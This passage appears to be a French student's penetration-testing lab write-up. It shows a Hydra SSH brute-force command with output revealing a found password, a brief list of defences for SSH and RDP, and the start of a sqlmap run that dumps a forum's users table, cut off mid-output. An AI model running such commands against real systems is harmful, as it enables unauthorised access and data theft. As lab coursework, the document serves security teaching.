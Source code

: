 ### Utilisez le même type d'attaque sur le service SSH tournant sur WEB en rendant le service accessible depuis le WAN (redirection de port).


````
hydra -l djaws -P djaws.txt 10.0.2.15 ssh -t 4
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-04-04 12:43:20
[DATA] max 4 tasks per 1 server, overall 4 tasks, 11 login tries (l:1/p:11), ~3 tries per task
[DATA] attacking ssh://10.0.2.15:22/
[22][ssh] host: 10.0.2.15   login: djaws  password: P@ssw0rd
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-04-04 04:43:32
````

## Comment pouvez-vous protéger ces accès (RDP et SSH) sans avoir à modifier les mots de passe utilisateur.

### - Utiliser des Clés SSH au lieu de Mots de Passe (pour SSH)

### - Limiter les Connexions RDP à des Adresses IP spécifiques

### - Configurer des Limites de Connexions et des Verrouillages après Tentatives d'Échec

````

 # EXERCICE 5 - Attaques sur des applications Web

 $ sqlmap -u http://192.168.34.201:8080/topics.php?id_forum=1 -p id_forum -D forum -T users --dump
        ___
       __H__                                                                                                       
 ___ ___[,]_____ ___ ___  {1.8.11#stable}                                                                          
|_ -| . ["]     | .'| . |                                                                                          
|___|_  ["]_|_|_|__,|  _|                                                                                          
      |_|V...       |_|   https://sqlmap.org                                                                       

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 13:13:21 /2025-04-04/

[13:13:21] [INFO] resuming back-end DBMS 'mysql' 
[13:13:21] [INFO] testing connection to the target URL
you have not declared cookie(s), while server wants to set its own ('PHPSESSID=7b5ac612ca2...3581f06aa3'). Do you want to use those [Y/n] Y
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id_forum (GET)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (original value)
````